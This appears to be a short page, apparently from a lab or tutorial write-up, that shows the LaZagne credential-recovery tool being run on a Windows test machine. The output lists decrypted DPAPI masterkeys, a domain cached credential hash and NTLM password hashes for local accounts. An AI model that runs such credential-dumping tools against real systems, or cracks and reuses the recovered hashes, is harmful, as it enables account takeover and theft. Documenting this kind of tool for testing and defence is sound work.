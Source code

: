 https://github.com/AlessandroZ/LaZagne
	
	PS C:\Users\testuser\Desktop> .\lazagne.exe windows

	|====================================================================|
	|                                                                    |
	|                        The LaZagne Project                         |
	|                                                                    |
	|                          ! BANG BANG !                             |
	|                                                                    |
	|====================================================================|

	[+] System masterkey decrypted for 1db44b6b-a3f0-4e0f-b6cd-03c5b1170c80
	[+] System masterkey decrypted for 27bda5e9-3f16-4d5f-ae94-8b3ce16df2e5

	########## User: SYSTEM ##########

	------------------- Mscache passwords -----------------

	testuser:dba152dcac68179962a74bace63c7336:valhalla:valhalla.local

	------------------- Hashdump passwords -----------------

	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e2920a939049177df3f1c08ae1ff62e4:::
	win10:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	nightmare:1005:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::